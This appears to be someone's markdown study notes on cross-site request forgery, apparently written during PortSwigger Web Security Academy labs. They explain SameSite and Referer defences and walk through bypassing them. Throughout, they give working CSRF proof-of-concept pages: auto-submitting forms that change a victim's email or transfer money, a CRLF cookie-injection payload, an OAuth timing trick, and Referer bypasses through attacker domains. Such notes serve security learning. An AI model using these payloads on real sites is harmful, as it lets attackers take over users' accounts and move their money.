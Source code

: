 # CSRF
CSRF is an attack when attacker induces user to perform some actions on site that they didn't want to do.  
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
This html page will force user to change email  
Easiest way to construct CSRF page is to use CSRF PoC from engagement tools  
If it's possible to perform CSRF via GET request, we can use smth like this:
``` 
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
## Bypassing CSRF token validation  
Switch POST to GET  
Some applications  correctly validate the token when it is present but skip the validation if the token is omitted.  
In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a globalpool of tokens that it has issued and accepts any token that appears in this pool.  
In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.   
Remember that tokens could be single-use  

CSRF token could be duplicated in Cookie. In such case, we need to exploit cookie-setting mechanism and force user to use our own generated CSRF token which must be same with token in cookie.  
For example, if server duplicates our search requests in cookie like `lastSearch: test`, we can create search request which will set our own cookie and csrf token and send such request to user and then exploit CSRF  
Example:
```
/search?q=test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None
```
%0d%0a - new line  
%3b - ;  
Then we create CSRF PoC and add 
```
<img src="https://0a4a000404f41823808649ee00a4001f.web-security-academy.net/search?test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
## Bypassing SameSite cookie restrictions
SameSite checks URL scheme and TLD+1. That means, that it checks http/https and `.com` and one level behind that.  
Same-Origin checks the whole origin including port and all subdomain names.  
So same-site allows requests from `https://app.example.com` to `https://intranet.example.com` and from `https://example.com` to `https://example.com:8080`, while same-origin will strictly check all the things  
If site don't issue SameSite, Chrome will always set ot to `Lax` value  
### Strict
If a cookie is set with the SameSite=Strict attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie.  
### Lax
Lax will send cookies in cross-site requests, but only if it `GET` requests and request was resulted from top-level navigation by user (clicking a link)  
### None
SameSite is disabled  
This behaviour is acceptable only if cookie is third-party and not used to manipulate any sensitive data.  
## Bypassing Lax restrictions with GET requests
We can simply change POST to GET and create XSS vector with top-level navigation (link):
```
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
If we can't use simple GET requests, we can try to epxloit some framework features. In case of `Symphony`, we can use `_method` parameters in form to override request method:
```
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
## Bypassing using on-site gadgets
If cookies are using `SameSite=Strict`, we can't use them in any cross-site requests. But we can try to bypass it using site gadgets with secondary requests.  
One possible gadget is client-side redirect which uses attacker-controllable input such as URL to construct redirection target.  
Note that the equivalent attack is not possible with server-side redirects  

SameSite cookie restrictions are omitted for 120 seconds during OAuth login, so we can exploit this:
```
<form method="POST" action="https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
## Bypassing Referer-based CSRF defenses
Referer header is set by servers to identify page from which request is created  
First way is just simply omit Referer header.  
In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:  
```
<meta name="referrer" content="never">
or
<meta name="referrer" content="no-referrer">
```
Another way is bypassing inadequate validating of Referer header. We can set vulnerable website as subdomain of our exploit server or as parameter in URL:
```
http://vulnerable-website.com.attacker-website.com/csrf-attack
http://attacker-website.com/csrf-attack?vulnerable-website.com
```
It's important to add `Referrer-Policy: unsafe-url` header. This ensures that the full URL will be sent, including the query string.  
We can modify JS script in CSRF PoC ike this:
```
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
```
MAYBE HEADER IS WRONG. POSSIBLE SOLUTION:  
Add `<meta name="referrer" content="unsafe-url">`  
Full possible exploit:
```
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
    <body>
        <form action="https://0a0700be0447208882aec5ff00e40069.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker3@evil.com">
        </form>
        <script>
            history.pushState('', '', '/?0a0700be0447208882aec5ff00e40069.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

